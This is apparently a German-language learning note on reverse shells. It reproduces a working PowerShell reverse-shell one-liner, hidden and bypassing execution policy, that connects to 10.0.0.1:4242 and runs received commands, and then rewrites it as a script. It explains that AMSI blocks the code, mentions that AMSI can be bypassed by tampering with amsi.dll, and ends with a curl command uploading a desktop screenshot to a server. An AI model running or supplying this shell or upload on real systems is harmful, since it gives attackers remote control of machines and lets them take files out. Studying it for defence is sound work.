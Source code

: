 # Learning zur Reverse Shell



One Liner Reverse Shell in einer Powershell
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Quelle: https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell

In Powershell umgeschrieben sieht der Code so aus:

```powershell
New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);
$stream = $client.GetStream()

[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2  = $sendback + "PS " + (pwd).Path + "> "
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()}
    
$client.Close()
```

Führt man den Code in der Powershell aus. Kommt folgeden Fehlermeldung:

![image](https://github.com/user-attachments/assets/a9f07a42-b9cc-44c4-8627-e6568bd53662)

Die Fehlermeldung wird durch das Antimalware Scan Interface (kurz. AMSI) aufgerufen. AMSI analysiert den eingegeben Code auf Strukturen bekannter Schadsoftware. [Microsoft](https://learn.microsoft.com/de-de/windows/win32/amsi/antimalware-scan-interface-portal) nutzt AMSI für:
- Benutzerkontensteuerung bzw. UAC (Erhöhung von Rechten für EXE-, COM-, MSI- oder ActiveX-Installation)
- PowerShell (Skripts, interaktive Verwendung und dynamische Codeauswertung)
- Windows Script Host („wscript.exe“ und „cscript.exe“)
- JavaScript und VBScript
- VBA-Makros in Office

AMSI ist kein unbekanntes System, weshalb es einigen Anwendern gelungen einen Bypass zu erschaffen. Dazu wird die `amsi.dll` mit dem Ziel manipuliert, dass bosthafter Code als sauber zu indentifiziert wird.    

---
28.01.: Code angepasst vom Server -> Upload zum Webserver mit 
```
curl -X POST -F "file=@C:/Users/admin/Desktop/screenshot.png" http://127.0.0.1:5000/upload
```
